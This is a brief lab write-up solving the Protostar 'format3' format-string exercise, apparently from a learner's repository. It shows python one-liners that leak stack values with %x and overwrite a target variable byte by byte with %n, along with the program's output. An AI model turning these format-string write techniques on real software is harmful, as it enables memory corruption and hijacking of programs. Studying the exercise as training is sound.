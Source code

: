 #Format 3

Goal: similart to previous except it is just no longer writing byte but more than one byte.


```	[13:10:06] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/format3$python -c 'print "AAAA" + "%x." * 12 ' |./format3 
AAAAf7ff0500.ffffd114.f7fbd000.0.0.ffffd0c8.80484e6.ffffcec0.200.f7fbdc20.f7ffd000.41414141.
Target is 00000000 :(
```
Lets try with our address:

```
[13:14:00] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/format3$python -c 'print "\x30\xa0\x04\x08" + "%x." * 12 ' |./format3 
0�f7ff0500.ffffd114.f7fbd000.0.0.ffffd0c8.80484e6.ffffcec0.200.f7fbdc20.f7ffd000.804a030.
Target is 00000000 :(
```
From this point on, I brute force the number of characters need to be written.But it is definitely possible to calcualte (laziness).

overwritten byte by byte 

```
[13:17:59] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/format3$python -c 'print "\x30\xa0\x04\x08\x31\xa0\x04\x08\x32\xa0\x04\x08%56x%12$n%17x%13$n%173x%14$n"'| ./format3 
0�1�2�                                                f7ff0500         ffffd114                                                                                                                                                                     f7fbd000
you have modified the target :)
```

But just for fun I try to see if I can overwrite 4 byte at the same time.Unfortunately, I only got up to last two bytes:

```
[13:20:13] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/format3$python -c 'print "\x30\xa0\x04\x08%21824x%12$n"' | ./format3 
0�   
Target is 00005544 :(
```

